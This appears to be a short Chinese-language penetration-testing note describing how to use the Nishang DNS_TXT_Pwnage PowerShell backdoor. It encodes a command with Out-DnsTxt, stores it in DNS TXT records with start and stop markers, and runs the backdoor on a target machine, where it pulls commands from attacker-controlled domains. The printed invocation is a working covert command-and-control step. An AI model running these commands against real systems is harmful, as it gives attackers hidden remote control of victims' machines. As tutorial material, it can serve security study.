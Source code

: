 	https://github.com/samratashok/nishang/Utility/Out-DnsTxt.ps1
	https://github.com/samratashok/nishang/Backdoors/DNS_TXT_Pwnage.ps1
	新建一个psh文件，使用out-dnstxt转换，这里的命令是net user
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/201.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/202.png)

	y0stUSgtTi3i5QIA
	添加一条域名txt记录，这里在本地设置，正常是在域名商的网站里配置
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/203.png)

	还需创建两个txt记录，分别是指定开始和结束的字符串
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/204.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/205.png)

	靶机执行
	>Import-Module .\DNS_TXT_Pwnage.ps1
	>DNS_TXT_Pwnage -startdomain start.zone.com -cmdstring cmd -commanddomain 1.zone.com -psstring start -psdomain zone.com -Subdomains 1 -StopString stop
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/206.png)